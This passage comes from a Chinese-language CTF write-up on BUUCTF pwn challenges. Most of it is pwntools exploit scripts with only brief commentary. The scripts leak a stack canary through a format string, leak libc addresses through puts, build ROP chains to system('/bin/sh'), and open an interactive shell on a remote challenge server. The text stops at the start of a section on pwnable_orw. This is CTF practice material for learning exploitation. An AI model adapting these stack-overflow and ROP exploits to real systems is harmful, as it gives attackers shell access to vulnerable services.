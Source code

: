 ```python
libc = LibcSearcher('read', read)
base = read - libc.dump('read')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = cyclic(128 + 8)
payload += p64(poprdi_ret)
payload += p64(binsh)
payload += p64(sys)

io.sendlineafter(b'Input:\n', payload)

io.interactive()
```
# buu037-bjdctf_2020_babyrop2
用gdb调试发现本题环境中所有函数的canary都相同，于是首先泄露canary然后栈溢出完事。
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

poprdi_ret = 0x400993

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25313)
elf = ELF('./pwn')

io.sendlineafter(b'I\'ll give u some gift to help u!\n', b'%7$llx')

canary = int(io.recv(16), 16)
print(hex(canary))

payload = cyclic(0x18)
payload += p64(canary)
payload += p64(0xdeadbeef)
payload += p64(poprdi_ret)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['vuln'])

io.sendlineafter(b'Pull up your sword and tell me u story!\n', payload)
puts = u64(io.recv(6) + b'\x00\x00')
libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = cyclic(0x18)
payload += p64(canary)
payload += p64(0xdeadbeef)
payload += p64(poprdi_ret)
payload += p64(binsh)
payload += p64(sys)

io.sendline(payload)

io.interactive()
```
# buu038-pwnable_orw
就是写入shellcode。这道题中有一个seccomp函数，在其中调用了两次prctl函数。具体的功能是禁止用户调用某些系统调用。下面是程序中的片段：